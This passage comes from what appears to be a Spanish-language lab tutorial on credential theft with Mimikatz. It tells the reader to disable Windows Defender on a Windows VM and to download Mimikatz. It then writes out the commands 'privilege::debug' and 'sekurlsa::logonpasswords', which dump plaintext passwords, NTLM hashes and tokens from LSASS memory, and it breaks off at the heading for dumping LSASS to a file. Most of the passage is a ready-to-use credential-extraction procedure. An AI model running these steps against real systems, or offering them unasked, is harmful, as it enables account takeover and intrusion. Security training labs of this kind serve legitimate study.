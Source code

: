 Conéctalas por red interna o Host-Only.

Desactiva Windows Defender en la VM de Windows para permitir el uso de Mimikatz (solo con fines educativos).

---

#### 🧱 Instalación de Mimikatz en Windows

#### 🛠️ Opción 1: Manual (en VM Windows)

1. Descarga Mimikatz desde GitHub (versión oficial):
   [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)

2. Extrae el `.zip`.

3. Ejecuta `mimikatz.exe` **como administrador**.

---

### 💣 Paso a Paso: Volcado de Memoria + Extracción de Credenciales

#### ✅ 1. **Usando Mimikatz directamente**

##### 🔓 Ejecuta Mimikatz:

```cmd
mimikatz.exe
```

##### 📥 Cargar módulo de privilegios:

```mimikatz
privilege::debug
```

> Esto permite acceder a procesos protegidos.

##### 📦 Extraer credenciales de memoria (LSASS):

```mimikatz
sekurlsa::logonpasswords
```

📌 Esto muestra:

- Nombre de usuario
- Dominio
- Contraseña en texto plano (si está en memoria)
- Hash NTLM
- Tokens

---

#### ✅ 2. **Volcar memoria de LSASS a archivo y analizar después**
